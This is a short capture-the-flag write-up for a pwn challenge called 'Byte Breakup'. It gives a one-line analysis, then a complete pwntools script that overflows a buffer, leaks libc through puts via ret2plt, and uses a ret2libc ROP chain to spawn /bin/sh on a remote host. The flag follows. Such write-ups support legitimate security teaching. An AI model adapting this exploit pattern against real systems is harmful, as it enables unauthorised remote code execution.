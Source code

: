 # Byte Breakup

## Analysis
We can exploit using a ret2plt to leak the libc base address, then we can utilise a ret2libc attack to get shell.

## Solution
```python
from pwn import *

elf = ELF("./vuln")
context.binary = elf
libc = ELF("./libc.so.6")

#p = elf.process()
p = remote("34.125.199.248", 6969)

p.readuntil(b"password: \n")

rop = ROP(elf)
rop.raw(b"A" * 40)
rop.rdi = elf.got["puts"]
rop.call(elf.plt["puts"])
rop.call(elf.sym["main"])
p.sendline(rop.chain())

p.readline()
p.readline()

leak = u64(p.read(6) + b"\x00\x00")
libc.address = leak - libc.sym["puts"]

p.readuntil(b"password: \n")

rop = ROP(libc)
rop.rdx = 0
rop.rsi = 0
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address))
rop.call("system")
p.sendline(rop.chain())

p.clean()

p.interactive()
```

## Flag
```
OSCTF{b1t_byt3_8r3akup}
```
